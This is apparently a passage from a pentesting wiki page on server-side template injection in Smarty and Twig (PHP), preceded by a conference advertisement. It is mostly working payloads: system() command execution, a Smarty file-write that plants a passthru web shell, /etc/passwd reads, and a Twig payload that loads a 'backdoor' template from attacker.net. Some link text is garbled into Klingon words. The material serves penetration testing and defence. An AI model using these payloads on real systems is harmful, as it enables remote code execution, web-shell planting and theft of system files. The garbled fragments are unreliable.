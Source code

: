 <figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) is the most relevant cybersecurity event in **Spain** and one of the most important in **Europe**. With **the mission of promoting technical knowledge**, this congress is a boiling meeting point for technology and cybersecurity professionals in every discipline.

{% embed url="https://www.rootedcon.com/" %}

##


### Smarty (PHP)
```php
{$smarty.version}
{php}echo `id`;{/php} //deprecated in smarty v3
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
{system('ls')} // compatible v3
{system('cat index.php')} // compatible v3
```
**Qapla'**

* [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection) lo' Smarty qutlh
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#smarty)

### Twig (PHP)

* `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{7*'7'}} = 49`
* `{{1/0}} = Error`
* `{{foobar}} Nothing`
```python
#Get Info
{{_self}} #(Ref. to current application)
{{_self.env}}
{{dump(app)}}
{{app.request.server.all|join(',')}}

#File read
"{{'/etc/passwd'|file_excerpt(1,30)}}"@

#Exec code
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id',""]|sort('system')}}

#Hide warnings and errors for automatic exploitation
{{["error_reporting", "0"]|sort("ini_set")}}
```
**Twig - Template format**
